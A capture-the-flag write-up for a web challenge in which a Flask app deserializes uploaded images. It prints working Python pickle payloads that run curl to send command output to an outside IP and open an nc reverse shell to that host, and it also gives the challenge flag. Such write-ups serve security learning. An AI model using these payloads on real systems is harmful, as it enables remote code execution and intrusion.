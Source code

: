 # Imported Kimchi 2
## Details
- Category: Web
- Flag: `flag{4nd_h3r3_1_w45_th1nk1ng_v1n3g4r_w45_s4n1t4ry}`
- Synopsis:
	- The server's source code is available, Flask being the web framework.
	- Gain RCE via Insecure Deserialization by including manipulated serialized objects to uploaded files.
## Writeup
Upon visiting the index page of [https://imported-kimchi-2.cha.hackpack.club/](https://imported-kimchi-2.cha.hackpack.club/), a file upload is available for PNG and JPG/JPEG images, which may be viewed after uploading with a manipulated file name, being a UUID.

![[Images/Pasted image 20220410231334.png]]
![[Images/Pasted image 20220410231418.png]]
![[Images/Pasted image 20220410231441.png]]

Inspecting the provided source code, the webserver attempts to deserialize the uploaded image file, which may be exploited to gain RCE. For standard image files, this would not be feasible; however, an attacker may craft malicious payloads and upload them as image files to gain code execution.

![[Images/Pasted image 20220410231752.png]]

From viewing https://book.hacktricks.xyz/pentesting-web/deserialization#pickle, I found a payload that may be used to gain RCE on the affected service.

To successfully gain RCE on the service, I created a VPS via AWS Lightsail and opened TCP port 80 using a netcat listener.

The python script below includes the Proof of Concept used to test whether RCE exists. The script checks whether netcat exists on the affected service, then sends HTTP POST data back to the VPS.

```python
#!/usr/bin/env python3

import pickle
import base64

class Payload(object):
	def __reduce__(self):
		import os
		return (os.system,('curl 3.135.195.57 -X POST -d $(which nc | base64)',))

poc = Payload()
print(poc)
print(pickle.dumps(poc))
```

![[Images/Pasted image 20220410232537.png]]

Then, by uploading and visiting the respective file, I received a connection back on my VPS!

![[Images/Pasted image 20220410232801.png]]

To gain a fully functional shell, I used Pentest Monkey's reverse shell cheat sheet to grab the flag!

The final payload to generate is:

```python
#!/usr/bin/env python3

import pickle
import base64

class Payload(object):
	def __reduce__(self):
		import os
		return (os.system,('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 3.135.195.57 80 >/tmp/f',))

poc = Payload()
print(pickle.dumps(poc))
```

From uploading and attempting to view the image on the webpage, I received a reverse shell on my VPS to grab the flag!

![[Images/Pasted image 20220410233224.png]]

![[Images/Pasted image 20220410233331.png]]